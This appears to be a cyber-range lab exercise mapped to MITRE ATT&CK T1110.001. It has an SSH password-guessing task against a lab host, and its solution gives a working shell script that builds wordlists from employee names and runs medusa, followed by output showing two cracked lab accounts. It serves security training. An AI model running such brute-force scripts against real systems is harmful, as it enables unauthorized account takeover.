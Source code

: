 ### Task: Brute Force: Password Guessing

[T1110.001](https://attack.mitre.org/techniques/T1110/001/)

Your target is a company with a public-facing host with IP 10.0.128.2.

Use `ncrack`, `medusa`, or `hydra` at `attacker` to guess password for authentication of one of company users via SSH. Use a [list of employees](./employees.md) and leverage rumors that users may still use their default credentials.

 You have been told that the username is their surname in small letters and without diacritics, and the password is the first name without diacritics and a number from 0 to 9, and the first letter is the capital. For instance, Roman Havel could have the username `havel` and password `Roman0`.

<details open>

<summary>
Solution
</summary>

Create an employees.txt file on the attacker's machine and convert it to ASCII.

```
# cat employees.txt | iconv -f utf-8 -t ascii//TRANSLIT > employees-new.txt
# mv employees-new.txt employees.txt
```

Perform a brute-force attack to guess the user's password using the script and the Medusa tool.

* You can use the -t parameter to set the number of concurrent login attempts, which will speed up the brute-forcing process.

```
#/bin/sh

while read p; do

	password=$(echo $p | cut -d' ' -f 1)
	username=$(echo $p | cut -d' ' -f 2 | tr '[:upper:]' '[:lower:]')

	> wordlist.txt
	for i in $(seq 0 9);
	do
		echo "$password$i" >> wordlist.txt
	done

	medusa -t 4 -b -h 10.0.128.2 -u $username -P wordlist.txt -M ssh

done < employees.txt
```

Passwords found using the Medusa tool.

```
ACCOUNT CHECK: [ssh] Host: 10.0.128.2 (1 of 1, 0 complete) User: novak (1 of 1, 0 complete) Password: Martin1 (2 of 10 complete)
ACCOUNT FOUND: [ssh] Host: 10.0.128.2 User: novak Password: Martin1 [SUCCESS]

ACCOUNT CHECK: [ssh] Host: 10.0.128.2 (1 of 1, 0 complete) User: ruzicka (1 of 1, 0 complete) Password: Michal1 (1 of 10 complete)
ACCOUNT FOUND: [ssh] Host: 10.0.128.2 User: ruzicka Password: Michal1 [SUCCESS]
```
